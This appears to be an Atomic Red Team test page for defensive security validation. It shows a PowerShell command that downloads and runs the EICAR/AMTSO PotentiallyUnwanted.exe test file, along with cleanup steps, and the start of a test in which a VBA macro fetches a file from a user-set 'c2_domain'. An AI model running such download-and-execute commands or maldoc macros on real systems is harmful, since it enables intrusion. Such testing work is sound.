 ## Atomic Test #8 - Potentially Unwanted Applications (PUA)
The Potentially Unwanted Applications (PUA) protection feature in antivirus software can identify and block PUAs from downloading and installing on endpoints in your network. These applications are not considered viruses, malware, or other types of threats, but might perform actions on endpoints that adversely affect their performance or use. This file is similar to EICAR test virus file, but is considered a Potentially Unwanted Application (PUA) instead of a VIRUS (i.e. not actually malicious, but is flagged as it to verify anti-pua protection).

**Supported Platforms:** Windows


**auto_generated_guid:** 02f35d62-9fdc-4a97-b899-a5d9a876d295





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| pua_url | url to PotentiallyUnwanted.exe | url | http://amtso.eicar.org/PotentiallyUnwanted.exe|
| pua_file | path to PotentiallyUnwanted.exe | path | $env:TEMP/PotentiallyUnwanted.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest #{pua_url} -OutFile #{pua_file}
& "#{pua_file}"
```

#### Cleanup Commands:
```powershell
Stop-Process -name PotentiallyUnwanted
Remove-Item #{pua_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #9 - Office Generic Payload Download
This Test uses a VBA macro to launch Powershell which will download a file from a user defined web server.
Required input agruments are c2_domain and file_name
Execution is handled by [Invoke-MalDoc](https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.
Example for c2 server located at 127.0.0.1 for the file test.txt which is nested below the parent directory in the tests/my-test folder
Example input args for file in root directory c2-domain = 127.0.0.1, file-name = test.txt
